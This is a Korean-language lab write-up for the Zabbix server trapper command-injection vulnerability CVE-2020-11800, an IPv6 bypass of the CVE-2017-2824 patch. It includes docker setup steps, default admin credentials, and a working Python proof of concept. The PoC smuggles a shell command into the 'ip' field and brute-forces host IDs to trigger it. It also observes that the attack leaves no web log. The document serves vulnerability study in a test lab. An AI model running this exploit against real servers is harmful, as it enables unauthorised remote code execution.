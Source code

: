 # Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

**Contributors**

-   [박철준(@cheoljun99)]

##요약
Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.

![](0.png)
로그인하려면 ID: admin, PW: zabbix 를 입력하세요.

![](1.png)
Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.

![](2.png)
poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.

![](3.png)
이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.

![](4.png)
성공적으로 실행된 명령은 콘솔에도 기록됩니다.

![](5.png)
해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
